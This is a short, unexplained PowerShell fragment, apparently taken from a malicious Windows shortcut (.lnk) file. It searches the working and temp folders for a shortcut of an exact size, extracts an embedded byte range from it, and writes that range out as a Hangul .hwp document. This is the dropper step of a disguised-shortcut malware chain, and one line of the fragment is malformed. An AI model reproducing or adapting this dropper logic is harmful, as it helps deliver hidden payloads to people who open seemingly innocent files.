 $lk=ls -Path '.\' ;
$lk= Where {$lk.length -eq 56397};
if($lk -eq $null) {$lk=ls -Path $env:temp -depth 2 | Where {$_.length -eq 56397}};
$n=$lk.name.Replace('.lnk','.hwp');

$lk=$lk.FullName;$file = [System.IO.File]::ReadAllBytes($lk);$file1=[byte[]]$file[5709..(5709+50688-1)];

$fsdf=$lk.Replace('.lnk','.hwp');[System.IO.File]::WriteAllBytes($fsdf,$file1);






